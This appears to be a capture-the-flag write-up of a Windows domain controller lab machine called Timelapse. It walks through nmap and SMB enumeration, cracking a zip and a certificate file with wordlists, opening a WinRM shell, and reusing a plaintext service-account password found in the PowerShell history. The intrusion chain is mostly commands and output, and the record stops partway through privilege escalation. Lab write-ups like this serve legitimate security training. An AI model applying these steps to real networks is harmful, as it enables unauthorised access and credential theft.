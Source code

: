 # Recon
```
$ nmap -sV -sC 10.10.11.152 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-25 21:09 EEST
Nmap scan report for 10.10.11.152
Host is up (0.17s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-07-26 01:10:29Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m04s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-07-26T01:10:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.69 seconds

```
- on port 3268 (ldap) we have domain so we put it in our hosts file
- we have port 445 open so we go check smb with crackmapexcex **crackmapexec smb 10.10.11.152**
- we found that domain is indeed timelapse.htb but the name is DC01
- trying to enumrate shares and useres with crackmapexec but no luck
- try smbclient to enumrate shares with no password and we got shares
# enumrating SMB
```
$ crackmapexec smb 10.10.11.152 --users
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [-] Error enumerating domain users using dc ip 10.10.11.152: NTLM needs domain\username and a password
SMB         10.10.11.152    445    DC01             [*] Trying with SAMRPC protocol
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 10.10.11.152 --users --shares
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [-] Error enumerating shares: STATUS_USER_SESSION_DELETED
SMB         10.10.11.152    445    DC01             [-] Error enumerating domain users using dc ip 10.10.11.152: NTLM needs domain\username and a password
SMB         10.10.11.152    445    DC01             [*] Trying with SAMRPC protocol
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ smbclient -L 10.10.11.152      
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
- now we go check the shares and start with **Shares**
- **smbclient //10.10.11.152/Shares**
- find two directories we try and gett all files with **mget***
- So we got an interesting backup file and other documents But this zip file is password protected
- crack it using fcrackzip and rockyou.txt
```
$ fcrackzip -D -u winrm_backup.zip -p /usr/share/wordlists/rockyou.txt


PASSWORD FOUND!!!!: pw == supremelegacy
```
- after unziping the file we got pfx file which is agrpup of certificates
- converting this pfx file to John compatible hash using pfx2john
```
─$ pfx2john legacyy_dev_auth.pfx >pfx_timelapse.hash
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ john -w=/usr/share/wordlists/rockyou.txt pfx_timelapse.hash --rule /usr/share/john/rules/rockyou-30000.rule
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:01:10 DONE (2023-07-25 21:47) 0.01426g/s 46088p/s 46088c/s 46088C/s thuglife06..thug211
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- found this [Blog](https://tecadmin.net/extract-private-key-and-certificate-files-from-pfx-file/) to extract certifcate and private key 
- after extracting them we need to check if the machine is listening on winrmm port and indeed it is on port 5986 but not in the nmap above because above is showing only the top ports
- we try to connect with winrm and yes we get a shell
```
$ evil-winrm -S -k legacy.key -c leg.cert -i 10.10.11.152 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> ls
*Evil-WinRM* PS C:\Users\legacyy\Documents> cd ..
*Evil-WinRM* PS C:\Users\legacyy> dir


    Directory: C:\Users\legacyy


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       10/25/2021   8:25 AM                Desktop
d-r---       10/25/2021   8:22 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos


*Evil-WinRM* PS C:\Users\legacyy> cd desktop
*Evil-WinRM* PS C:\Users\legacyy\desktop> ls


    Directory: C:\Users\legacyy\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/25/2023   7:25 AM             34 user.txt


*Evil-WinRM* PS C:\Users\legacyy\desktop> cat user.txt
8af4ec585761b0df90e7de96437b70a1
```
# Privilege Escalation
- listing privileges of the current user **whoami /priv**
- check for users **cd C:\Users\\** --> **ls**
- Checking privileges with net user **net user legacyy**
- winpeas shows that history file is potential attack vector
- **cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\\**
- we found creds for svc_deploy which is used in PS-remoting
- we reuse the creds and pass the commands via ps-remoting
```
Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine type ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit

*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> 
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> cd C:\Users
*Evil-WinRM* PS C:\Users> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
*Evil-WinRM* PS C:\Users> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
*Evil-WinRM* PS C:\Users> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
*Evil-WinRM* PS C:\Users> 
```




